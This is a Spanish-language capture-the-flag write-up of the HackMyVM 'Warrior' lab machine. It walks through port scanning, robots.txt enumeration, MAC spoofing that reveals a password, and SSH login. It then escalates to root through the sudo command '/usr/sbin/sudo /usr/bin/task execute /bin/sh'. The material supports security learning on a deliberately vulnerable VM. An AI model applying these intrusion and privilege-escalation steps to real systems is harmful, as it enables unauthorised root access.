 ```yaml
---
date: 2023-04-19 23:48:05
layout: post
title: Warrior - HackMyVm
subtitle: 
description: >-
    Warrior es una máquina de nivel fácil de la plataforma HackMyVm en la que tendremos una explotación diferente a lo que estamos acostumbrados y una escalada a través de un binario SUID.
image: /assets/images/HMV/Warrior-HackMyVM/portada.png
optimized_image: /assets/images/HMV/Warrior-HackMyVM/portada.png
category: blog
tags:
  - Linux
  - blog
author: elc4br4
paginate: true
---
```



# Escaneo de Puertos

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-robots.txt: 7 disallowed entries 
| /admin /secret.txt /uploads/id_rsa /internal.php 
|_/internal /cms /user.txt
|_http-server-header: nginx/1.18.0
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos tenemos un robots.txt

Abro el navegador y comienzo a explorar el servidor web y sus rutas

Una vez accedo a la ip encuentro lo siguiente:


![](/assets/images/HMV/Warrior-HackMyVM/warrior.png)


Si revisamos el archivo robots.txt encontramos varias rutas

```bash
Disallow:/admin
Disallow:/secret.txt
Disallow:/uploads/id_rsa
Disallow:/internal.php
Disallow:/internal
Disallow:/cms
Disallow:/user.txt
```

Voy accediendo una a una a todas las rutas, algunas me devuelven el error 404 y 403.

Excepto las rutas /user.txt … /secret.txt … /internal.php

En la ruta */user.txt* encontramos la palabra *loco* que podría ser un usuario del sistema.

En la ruta */secret.txt* encontramos algo más curioso

`0123456789ABCDEF`

Estas letras y números podrían servirnos posteriormente.

Finalmente reviso la ruta */internal.php* y me encuentro con lo siguiente.

![](/assets/images/HMV/Warrior-HackMyVM/internal.png)

Y tenemos otro posible usuario, *bro*

Además de eso nos dice que debemos cambiar la MAC interna como nos muestra *00:00:00:00:00:a?*

Pero nos falta una caracter al final de la dirección MAC, aqui es donde entra en juego el archivo secret.txt

Fui probando una a una hasta que di con la dirección correcta.

![](/assets/images/HMV/Warrior-HackMyVM/mac.png)

Una vez cambiada la dirección fisica de nuestra máquina atacante volvemos a acceder a la ruta /internal.php y encontramos una contraseña.

`Good!!!!!<!-- Your password is: Zurviv0r1 -->`

Ahora podemos acceder por ssh usando uno de los usuarios encontrados y la contraseña.

```bash
❯ ssh bro@192.168.0.31
The authenticity of host '192.168.0.31 (192.168.0.31)' can't be established.
ECDSA key fingerprint is SHA256:EHC+cRjEjv6OiTStHF158ViuvMIv/FYjdAKpF4L0tkY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.31' (ECDSA) to the list of known hosts.
bro@192.168.0.31's password: 
Linux warrior 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb  8 04:03:20 2022 from 192.168.1.51

bro@warrior:~$ id
uid=1000(bro) gid=1000(bro) groups=1000(bro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

# ESCALADA DE PRIVILEGIOS

Ejecuto `sudo -l` para comprobar si podemos ejecutar algun binario como root sin contraseña.

Si usamos directamente `sudo -l` nos arroja un mensaje de que el comando no se ha encontrado asique pruebo con la ruta completa de sudo.

```bash
bro@warrior:~$ /usr/sbin/sudo -l
Matching Defaults entries for bro on warrior:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/binUser bro may run the following commands on warrior:
    (root) NOPASSWD: /usr/bin/task
```

Podemos ejecutar el binario task como root sin contraseña asique me dirijo a la web de GTFOBINS.


![](/assets/images/HMV/Warrior-HackMyVM/suid.png)

```bash
bro@warrior:~$ /usr/sbin/sudo /usr/bin/task execute /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

Un CTF un poco diferente pero brutal como siempre creado por SML.

